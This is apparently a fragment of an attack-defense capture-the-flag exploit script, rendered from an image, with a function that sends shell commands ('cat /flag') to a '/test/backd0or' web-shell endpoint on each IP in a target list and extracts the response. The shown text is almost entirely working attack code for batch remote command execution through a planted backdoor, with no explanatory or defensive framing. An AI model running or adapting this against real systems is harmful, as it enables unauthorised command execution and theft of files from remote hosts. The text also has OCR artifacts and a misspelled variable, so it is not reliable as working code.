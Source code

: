 ```php

        \# submit\_flag(flag)

    except Exception as e:

        print(f"{ip} attack failed!")

​

​

def exp3(ip):

    url \= "http://" + ip +"/test/backd0or"

    params \= {

        "cmd1":"cat /flag"

    }

    data \= {

        "cmd":"cat /flag"

    }

    try:

        \# res = requests.get(url = url,params=params,timeout=timout)

        res \= requests.post(url \= url, data\=data,timeout\=timout)

        flag \= grep\_flag(3,res.text)

        \# submit\_flag(flag)

    except Exception as e:

        print(f"{ip} attack failed!")

​

def get\_ip1():

    ips \=\[\]

    ports \= \[\]

    with open("tomcat.txt","r") as file:

        ips \= file.readlines()

    return ips

​

def get\_ip3():

    with open("3.txt","r") as file:

        ips \= file.readlines()

```